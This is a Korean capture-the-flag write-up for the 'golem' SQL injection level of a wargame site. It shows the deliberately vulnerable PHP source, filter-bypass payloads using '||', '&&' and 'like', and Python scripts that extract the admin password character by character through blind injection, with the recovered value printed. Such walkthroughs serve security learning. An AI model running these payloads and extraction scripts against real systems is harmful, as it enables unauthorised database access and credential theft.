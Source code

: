 # golem

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- `or`, `and`, `substr(`, `=`을 필터링 한다.
- admin의 정확한 pw를 알아야 한다.

## 3. Solution
python 스크립트를 이용해 blind-sqlinjection 한다.

a. pw의 길이
b. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`pw` | 1234' || id like 'admin' && length(pw) like `i` #


필터링 중인 연산자는 기호로 우회하였다.
'Hello admin'을 찾아가며 논리식을 검증한다.


이후, 비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?\
            pw=1234' || id like 'admin' %%26%%26 length(pw) like %d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw

변수명 | 값
---|---:
`pw` | 1234' || id like 'admin' && ascii(mid(pw,i,1)) like j #


a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?\
            pw=1234' || id like 'admin' %%26%%26 length(pw) like %d %%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break

pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?\
                pw=1234' || id like 'admin' %%26%%26 ascii(mid(pw,%d,1)) like %d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 7
pw(2) : 77
pw(3) : 77d
pw(4) : 77d6
pw(5) : 77d62
pw(6) : 77d629
pw(7) : 77d6290
pw(8) : 77d6290b
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.

변수명 | 값
---|---:
`pw` | 77d6290b